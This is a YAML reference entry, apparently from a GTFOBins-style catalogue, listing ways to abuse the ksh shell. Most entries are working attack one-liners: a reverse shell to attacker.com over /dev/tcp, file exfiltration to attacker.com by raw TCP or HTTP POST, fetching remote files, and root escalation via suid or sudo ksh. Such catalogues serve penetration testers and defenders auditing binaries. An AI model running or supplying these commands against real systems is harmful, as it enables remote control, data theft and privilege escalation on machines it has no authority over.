 ```yaml
---
functions:
  shell:
    - code: ksh
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ksh -c 'ksh -i > /dev/tcp/$RHOST/$RPORT 2>&1 0>&1'
  file-upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        ksh -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        ksh -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        ksh -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        ksh -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  file-write:
    - code: |
        export LFILE=file_to_write
        ksh -c 'echo DATA > $LFILE'
  file-read:
    - description: It trims trailing newlines.
      code: |
        export LFILE=file_to_read
        ksh -c 'echo "$(<$LFILE)"'
    - description: It trims trailing newlines.
      code: |
        export LFILE=file_to_read
        ksh -c $'read -r -d \x04 < "$LFILE"; echo "$REPLY"'
  suid:
    - code: ./ksh -p
  sudo:
    - code: sudo ksh
---
```

